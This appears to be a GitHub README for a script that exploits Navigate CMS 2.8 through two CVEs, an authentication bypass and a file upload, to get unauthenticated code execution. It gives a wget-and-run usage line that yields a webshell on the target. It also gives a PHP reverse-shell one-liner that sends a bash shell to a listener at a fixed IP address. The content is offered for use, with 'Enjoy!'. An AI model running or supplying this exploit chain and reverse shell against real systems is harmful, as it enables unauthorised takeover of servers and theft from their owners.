 # Navigate-CMS-RCE -Unauthenticated-
This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8

This script exploits:
- CVE 2018-17552  # Authentication bypass
- CVE 2018-17553  # File upload


## Use Mode
<pre><code>wget https://raw.githubusercontent.com/0x4r2/Navigate-CMS-RCE-Unauthenticated-/main/navigate_RCE.sh

./navigate_RCE.sh navigator.hm</code></pre>

![image](https://user-images.githubusercontent.com/6622069/206307543-97cff429-f41c-471d-9e76-85620708ec84.png)

Getting a simple webshell. Enjoy!

## Tip: Upgrade to ReverseShell
<pre><code>php -r '$sock=fsockopen("192.168.153.133",9000);system("/bin/bash <&3 >&3 2>&3");' </code></pre>

![image](https://user-images.githubusercontent.com/6622069/206309051-e423ad7c-b473-4463-ad82-a1d8606e31ac.png)
